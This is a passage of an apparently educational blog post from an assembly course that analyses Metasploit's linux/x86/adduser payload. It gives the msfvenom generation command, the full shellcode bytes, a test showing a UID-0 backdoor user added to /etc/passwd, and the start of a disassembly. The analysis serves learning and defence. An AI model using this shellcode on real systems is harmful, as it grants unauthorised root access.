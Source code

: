 ```yaml
---
layout: post
title: SLAE 5.2 - Metasploit Payload Analysis adduser
date:   2019-03-07
categories: [SLAE, Assembly]
---
```

The 2nd metasploit payload we will analyze will be linux/x86/adduser.

Time to set up the payload options and output the shellcode with msfvenom.

msfvenom -p linux/x86/adduser PASS=SLAE USER=SLAE SHELL=/bin/sh -f c\
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload\
[-] No arch selected, selecting arch: x86 from the payload\
No encoder or badchars specified, outputting raw payload\
Payload size: 91 bytes\
Final size of c file: 409 bytes\
unsigned char buf[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"\
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"\
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x53\x4c"\
"\x41\x45\x3a\x41\x7a\x72\x63\x6e\x7a\x50\x59\x6c\x66\x72\x32"\
"\x45\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73"\
"\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd"\
"\x80";

Time to make sure it works.  Place shellcode in to the wrapper, compile with proper flags, then run this with elevated permissions.  Since we are editing /etc/passwd, this will need to be run with sudo OR change permissions to your /etc/passwd file (probably not the best idea).

```
sudo ./shellcode2
[sudo] password for pwoer: 
Shellcode Length:  40
```
Successfully ran without any errors.. Lets take a look at the bottom of the /etc/passwd file now.
```
cat /etc/passwd
pwoer:x:1000:1000:gg,,,:/home/pwoer:/bin/bash
SLAE:AzrcnzPYlfr2E:0:0::/:/bin/sh
```
It works! Time to walk through the shellcode..

Instead of gdb for analysis this time, we will be using ndisasm.  Let's run ndisasm with our shellcode as the input to see what happens.
```
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x53\x4c\x41\x45\x3a\x41\x7a\x72\x63\x6e\x7a\x50\x59\x6c\x66\x72\x32\x45\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
```